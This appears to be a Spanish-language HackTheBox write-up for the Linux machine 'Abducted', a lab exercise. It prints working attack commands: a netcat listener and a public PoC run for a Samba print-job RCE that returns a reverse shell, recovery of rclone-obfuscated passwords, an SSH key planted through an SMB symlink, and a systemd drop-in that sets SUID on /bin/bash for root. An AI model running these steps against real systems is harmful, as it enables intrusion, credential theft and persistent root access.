

# 🛸 Abducted – HackTheBox Machine Write-up

**Máquina:** Abducted  
**Dificultad:** Media  
**Sistema:** Linux  
**Técnicas:** SMB, CVE-2026-4480, Escalada de privilegios via systemd, Abuso de wide links y force user, SUID

---

## 📖 Descripción

**Abducted** es una máquina Linux de HackTheBox que explota una vulnerabilidad crítica en el subsistema de impresión de Samba (**CVE-2026-4480**) para obtener ejecución remota de código. A partir de una shell inicial como `nobody`, se enumeran archivos de configuración que exponen credenciales ofuscadas con `rclone`, lo que permite acceder por SSH al usuario `scott`. Mediante el abuso de configuraciones inseguras de SMB (`wide links` y `force user = marcus`), se escala al usuario `marcus`, y finalmente, aprovechando permisos de escritura en un directorio de systemd, se obtiene acceso `root` a través de un SUID en `/bin/bash`.

Este write-up documenta el proceso completo de enumeración, explotación y escalada de privilegios, con el objetivo de servir como guía educativa para pentesters y entusiastas de la seguridad.

---

## 📌 Resumen del procedimiento

1. **Reconocimiento**  
   - Escaneo de puertos: SSH (22) y SMB (139, 445).  
   - Enumeración de recursos compartidos SMB con autenticación nula.  
   - Identificación del share de impresora `HP-Reception` con permisos de escritura.

2. **Explotación (CVE-2026-4480)**  
   - Uso del PoC público para ejecutar comandos a través de la descripción del trabajo de impresión.  
   - Obtención de una shell inversa como el usuario `nobody`.

3. **Post-explotación y obtención de credenciales**  
   - Búsqueda de archivos `.conf` fuera de rutas estándar.  
   - Hallazgo de `/opt/offsite-backup/rclone.conf` con credenciales ofuscadas de `svc-backup`.  
   - Decodificación de la contraseña mediante `rclone reveal`.  
   - La contraseña resulta ser válida para el usuario `scott` a través de SSH.

4. **Acceso como usuario estándar**  
   - Inicio de sesión SSH como `scott`.  
   - Lectura de la flag de usuario.

5. **Escalada a Marcus (abuso de SMB)**  
   - Verificación de configuraciones vulnerables: `wide links = yes` y `force user = marcus` en el share `transfer`.  
   - Creación de un enlace simbólico desde `/srv/transfer/keys` a `/home/marcus`.  
   - Generación de una clave SSH y subida de la clave pública al directorio `.ssh` de Marcus.  
   - Acceso SSH como `marcus` mediante la clave privada.

6. **Escalada a root (systemd + SUID)**  
   - Descubrimiento de que `marcus` pertenece al grupo `operators`.  
   - El grupo `operators` tiene permisos de escritura en `/etc/systemd/system/smbd.service.d`.  
   - Creación de un drop-in (`daffy.conf`) que ejecuta `chmod +s /bin/bash` antes de iniciar `smbd`.  
   - Reinicio del servicio `smbd` para activar el bit SUID en `/bin/bash`.  
   - Ejecución de `/bin/bash -p` para obtener una shell con privilegios de `root`.  
   - Lectura de la flag de root.

---

## 🛠️ Herramientas utilizadas

- `nmap`
- `nxc` (NetExec) / `crackmapexec`
- `smbclient`
- `rclone`
- `ssh-keygen`
- `systemctl`

---

## 🚀 Explotación y comandos clave

### 1. Enumeración de shares SMB
```bash
nxc smb abducted.htb -u '' -p '' --shares

2. Clonar y ejecutar el PoC de CVE-2026-4480
bash

git clone https://github.com/TheCyberGeek/CVE-2026-4480-PoC.git
cd CVE-2026-4480-PoC
nc -lvnp 8443
python3 exploit.py 10.129.244.177 <tu_ip> 8443 -P HP-Reception

3. Decodificar contraseña ofuscada de rclone
bash

rclone reveal <pass_ofuscado>

4. Acceso SSH como scott
bash

ssh scott@10.129.244.177

5. Subir clave pública a Marcus vía SMB
bash

ssh-keygen -q -t ed25519 -N '' -f /tmp/k
ln -s /home/marcus /srv/transfer/keys
smbclient //127.0.0.1/transfer -U 'scott%<password>' -c 'mkdir keys/.ssh; put /tmp/k.pub keys/.ssh/authorized_keys'
ssh marcus@localhost -i /tmp/k

6. Escalada a root con systemd
bash

cat > /etc/systemd/system/smbd.service.d/daffy.conf << 'EOF'
[Service]
ExecStartPre=/bin/bash -c 'chmod +s /bin/bash'
EOF
systemctl daemon-reload
systemctl restart smbd
/bin/bash -p
cat /root/root.txt

🔒 Flags (redactadas)

    User flag: [REDACTED]

    Root flag: [REDACTED]

📚 Referencias

    CVE-2026-4480 PoC

    HackTheBox - Abducted

👨‍💻 Autor

cosmenoide dev
GitHub · Portfolio# HTB-Abducted-Writeup
HTB "Abducted" write-up. Exploit CVE-2026-4480 (Samba RCE) → SMB wide links → systemd → root. Full methodology and flags.
